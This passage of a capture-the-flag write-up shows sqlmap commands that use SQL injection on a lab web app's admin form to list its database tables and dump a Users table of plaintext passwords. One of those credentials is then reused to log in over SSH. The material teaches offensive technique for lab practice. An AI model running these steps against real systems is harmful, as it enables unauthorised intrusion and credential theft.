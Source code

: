We'll probably want to enumerate the `Webapp` database tables based on the output, 
so let's cut this session short, declare the database with the `-D` switch and dump
the tables in the `Webapp` database:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/shop]
└─$ sqlmap -u http://192.168.56.254/shop/administrator/ --forms -D Webapp --tables
--SNIP--
Users
Database: Webapp
[1 table]
+-------+
| Users |
+-------+
{% endhighlight %}

Declaring the table to dump with the `-T` switch: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/shop]
└─$ sqlmap -u http://192.168.56.254/shop/administrator/ --forms -D Webapp -T Users --dump
--SNIP--
Database: Webapp
Table: Users
[4 entries]
+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | t0m123456     | tom      |
| 2  | p0k3m0n123456 | pokemon  |
| 3  | B4rT0L0123    | bart     |
| 4  | B4tm4n123456  | batman   |
+----+---------------+----------+
--SNIP--
{% endhighlight %}

Passwords stored in plaintext. I tried each login to see if any user had access to
other website functionality but they all have the same privileges in the admin 
section of the website. 

I tried each set of credentials over SSH and got access as the `bart` user:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/shop]
└─$ ssh bart@192.168.56.254 -p65535                                           130 ⨯
bart@192.168.56.254's password: 
Linux Shop 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64
bart@Shop:~$
{% endhighlight %}

We get the user flag. 
